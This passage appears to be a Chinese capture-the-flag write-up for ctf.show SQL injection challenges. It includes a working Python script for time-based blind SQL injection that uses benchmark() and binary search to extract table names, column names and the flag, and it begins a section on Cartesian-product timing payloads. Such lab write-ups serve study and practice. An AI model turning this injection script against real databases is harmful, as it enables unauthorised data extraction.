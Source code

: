 这个也挺好用，虽然没有sleep好用(痴呆，流口水.png)。太慢了(恼)，顺便买个饭去

```python
import requests
import time
url = 'http://0ca80f40-f50b-48d1-be46-a8badf78956d.challenge.ctf.show/api/'
str = ''
for i in range(60):
    min,max = 32, 128
    while True:
        j = min + (max-min)//2
        if(min == j):
            str += chr(j)
            print(str)
            break
        # 爆表名 ctfshow_flagxccb
        # payload = {
        #     'ip': f"'1111') or if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))<{j},benchmark(5000000,md5('1')),'False')#",
        #     'debug': 0
        # }
        # 爆列 flagaabc
        # payload = {
        #     'ip': f"'1111') or if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxccb'),{i},1))<{j},benchmark(5000000,md5('1')),'False')#",
        #     'debug': 0
        # }
        # 爆值 
        payload = {
            'ip': f"'1111') or if(ascii(substr((select group_concat(flagaabc) from ctfshow_flagxccb),{i},1))<{j},benchmark(5000000,md5('1')),'False')#",
            'debug': 0
        }
        start_time = time.time()
        r = requests.post(url=url, data=payload).text
        end_time = time.time()
        sub = end_time - start_time
        if sub >= 0.5:
            max = j
        else:
            min = j
```

## web 218 笛卡尔积

参考：[ X1r0z Blog](https://exp10it.io/2022/07/ctfshow-web%E5%85%A5%E9%97%A8sql%E6%B3%A8%E5%85%A5-web198-220-writeup/#web218)

大佬准备的sql笛卡尔积查询payload，在我windows本地跑查询时间0.059s，要在linux下吗？

1.2秒左右payload
